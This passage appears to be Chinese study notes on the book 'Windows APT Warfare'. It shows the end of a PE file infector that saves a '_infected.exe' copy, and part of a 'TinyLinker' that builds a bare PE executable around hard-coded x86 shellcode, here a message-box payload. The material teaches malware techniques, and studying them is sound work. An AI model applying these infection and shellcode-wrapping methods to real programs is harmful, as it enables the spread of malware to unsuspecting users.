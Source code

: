 ```c

    /*重命名和将缓存区文件写入硬盘*/
    char outputPath[MAX_PATH];
	memcpy(outputPath, argv[1], sizeof(outputPath));
	strcpy(strrchr(outputPath, '.'), "_infected.exe");
	FILE* fp = fopen(outputPath, "wb");
	fwrite(outBuf, 1, finalOutSize, fp);
	fclose(fp);

	printf("[+] file saved at %s\n", outputPath);
	puts("[+] done.");
    return 0;
}
```

这里在因为可选头大小的缘故调试了很久才能运行，由于加载的重写文件为32位，但他识别的结构体为64位，导致识别的段错开了0x10字节，32位可选头位0xe0,64位为0xf0

## TinyLinker

> 前面为在已有exe程序寄生，那可不可以直接产生一个新的呢

```c++
/**
 * Tiny Linker
 * Windows APT Warfare
 * by aaaddress1@chroot.org
 */
#include <iostream>
#include <Windows.h>
#pragma warning(disable : 4996)
#define file_align 0x200
#define sect_align 0x1000

#define P2ALIGNUP(size, align) ((((size) / align) + 1) * (align))

char x86_nullfree_msgbox[] =
	"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
	"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
	"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
	"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
	"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
	"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
	"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
	"\x49\x0b\x31\xc0\x51\x50\xff\xd7";

int main() {
	size_t peHeaderSize = P2ALIGNUP(sizeof(IMAGE_DOS_HEADER) + sizeof(IMAGE_NT_HEADERS) + sizeof(IMAGE_SECTION_HEADER), file_align);
	size_t sectionDataSize = P2ALIGNUP(sizeof(x86_nullfree_msgbox), file_align);
	char *peData = (char *)calloc(peHeaderSize + sectionDataSize, 1);

	// 填充dos数据，只需要填充标识和文件头地址
	PIMAGE_DOS_HEADER dosHdr = (PIMAGE_DOS_HEADER)peData;
	dosHdr->e_magic = IMAGE_DOS_SIGNATURE; // MZ
	dosHdr->e_lfanew = sizeof(IMAGE_DOS_HEADER);

	// 填充文件头
	PIMAGE_NT_HEADERS ntHdr = (PIMAGE_NT_HEADERS)(peData + dosHdr->e_lfanew);
	ntHdr->Signature = IMAGE_NT_SIGNATURE; // PE
	ntHdr->FileHeader.Machine = IMAGE_FILE_MACHINE_I386;
	ntHdr->FileHeader.Characteristics = IMAGE_FILE_EXECUTABLE_IMAGE | IMAGE_FILE_32BIT_MACHINE;
	ntHdr->FileHeader.SizeOfOptionalHeader = sizeof(IMAGE_OPTIONAL_HEADER);
	ntHdr->FileHeader.NumberOfSections = 1;

```